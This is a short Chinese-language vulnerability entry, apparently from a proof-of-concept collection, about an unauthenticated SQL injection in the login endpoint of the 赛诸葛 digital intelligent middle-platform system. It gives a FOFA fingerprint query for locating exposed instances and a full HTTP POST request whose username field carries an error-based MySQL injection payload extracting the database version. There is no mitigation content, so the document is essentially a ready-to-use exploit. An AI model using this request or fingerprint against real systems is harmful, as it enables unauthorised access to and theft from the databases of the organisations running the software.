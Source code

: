 # 赛诸葛数字化智能中台系统login存在SQL注入漏洞

赛诸葛数字化智能中台系统 login 登录接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
body="static/index/image/login_left.png" || icon_hash="1056416905"
```

## poc
```javascript
POST /login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: keep-alive

username=1')) AND GTID_SUBSET(CONCAT(0x7e,(SELECT (ELT(3469=3469,version()))),0x7e),3469) AND (('fOfY'='fOfY&loginType=1&password=bbb8aae57c104cda40c93843ad5e6db8&phone_head=86&wx_openid=&member=
```

![image-20241227221000969](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272210041.png)